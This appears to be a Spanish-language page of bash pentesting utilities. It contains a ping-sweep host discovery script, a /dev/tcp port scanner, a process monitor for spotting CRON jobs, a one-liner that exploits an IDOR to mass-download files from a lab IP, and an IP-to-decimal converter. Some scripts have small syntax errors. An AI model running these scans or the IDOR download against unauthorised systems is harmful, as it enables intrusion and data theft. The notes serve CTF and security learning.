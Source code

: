 # BASH

En este apartado iremos poniendo utilidades y scripts en bash.

## Host discovery

Script para descubrir host dentro de una red:

```bash
#!/bin/bash

function control_c(){
	echo -e "\n\n[!] Saliendo...\n"
	tput cnorm
	exit 0
}

# Ctlr+C
trap ctlr_c INT

tput .civis

for i in $(seq 1 254); do
	timeout 1 bash -c "ping -c 1 192.168.11.$i" &>/dev/null && echo "[+] El host 192.168.11.$i - ACTIVE" &
done

wait
tput cnorm
```

Y en modo OneLinner:

```bash
echo 10.0.15.{1..255} | xargs parallel -j30 ping -c1 -- | grep 'bytes from'
```

## Port discovery

Script para descubrir puertos abiertos de un maquina:

```bash
#!/bin/bash

function ctlr_c(){
    echo -e "\n\n[!] Saliendo...\n"
    tput cnorm
    exit 1
}

# Ctlr+C
trap ctlr_c INT

tput civis
for port in $(seq 1 65535); do
    timeout 1 bash -c "echo '' > /dev/tcp/192.168.11.160/$port" 2>/dev/null && echo "[+] Port $port - OPEN" &
done
wait
tput cnorm
```

## Monitor de procesos CRON

Script que monitoriza diferencias en procesos para destacar procesos CRON que se estén ejecutando en el sistema,

```bash
#!/bin/bash

# procmon.sh

function ctlr_c(){
    echo -e "\n\n[!] Saliendo...\n"
    tput cnorm
    exit 1
}

# Ctlr+C
trap ctlr_c INT

old_process = $(ps -eo command)

tput civis
while true; do
    new_process = $(ps -eo command)    
    diff <(echo $old_process) <(echo $new_process) | grep "[\>\<]" | grep -v "kworker"
    old_process = $new_process
done
tput cnorm
```

## Descarga IDOR

Script que aprovecha un idor para descargar de forma masiva en modo **oneliner**:

```bash
for i in {0..500} ; do wget http://10.10.10.245/download/${i} -O pcaps/${i}.pcap 2>/dev/null || break; done; rm pcaps/${i}.pcap
```

# Pasar IP a decimal

```bash
#!/bin/bash

ip_to_decimal() {
  IFS='.' read -r -a octetos <<< "$1"
  decimal=0
  for ((i=0; i<4; i++)); do
    octeto=${octetos[i]}
    decimal=$((decimal*256 + octeto))
  done
  echo "$decimal"
}

read -p "Ingresa la dirección IP: " ipv4
decimal=$(ip_to_decimal "$ipv4")
echo "La IP $ipv4 en formato decimal es: $decimal"
```

Uso el script para pasar de dirección **IP** a decimal `ip2dec.sh`.

```txt
❯ ./ip2dec.sh
Ingresa la dirección IP: 192.168.1.1
La IP 192.168.1.1 en formato decimal es: 3232235777
```

Introduzco la dirección **IP** en formato decimal y me muestra lo siguiente.
